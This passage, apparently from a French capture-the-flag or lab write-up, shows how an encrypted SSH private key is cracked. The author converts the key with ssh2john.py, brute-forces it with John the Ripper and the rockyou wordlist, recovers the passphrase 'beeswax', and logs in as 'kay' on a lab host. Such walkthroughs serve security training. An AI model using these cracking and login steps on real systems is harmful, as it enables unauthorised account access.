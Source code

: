 ### Sauvegarde de la Clé Privée

J'ai enregistré la clé privée dans un fichier nommé `key` sur ma machine locale.

### Décryptage de la Clé Privée

La clé privée était chiffrée, j'ai donc dû la décrypter pour l'utiliser. Pour cela, j'ai utilisé `ssh2john.py`, un script qui convertit la clé privée en un format crackable par `John the Ripper`.

**Commande:**
```bash
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
python ssh2john.py key > hash
```

**Explication:**
- `ssh2john.py` convertit la clé privée en un format hashé que `John the Ripper` peut utiliser pour la force brute.

### Crack de la Clé Privée avec John the Ripper

**Commande:**
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

**Explication:**
- `john` est un outil de force brute pour casser les mots de passe.
- `--wordlist` spécifie le fichier de mots de passe à utiliser pour la force brute.

**Résultats:**
```
beeswax          (key)
```

**Analyse:**
- Le mot de passe de la clé privée a été trouvé : `beeswax`.

### Utilisation de la Clé Privée Déchiffrée

Maintenant que j'avais le mot de passe de la clé, j'ai pu l'utiliser pour me connecter en tant que `kay`.

**Commande:**
```bash
ssh -i key kay@10.10.56.151
```

**Explication:**
- `-i` spécifie le fichier de clé privée à utiliser pour la connexion.

### Connexion Réussie

**Prompt:**
```
Enter passphrase for key 'key':
```
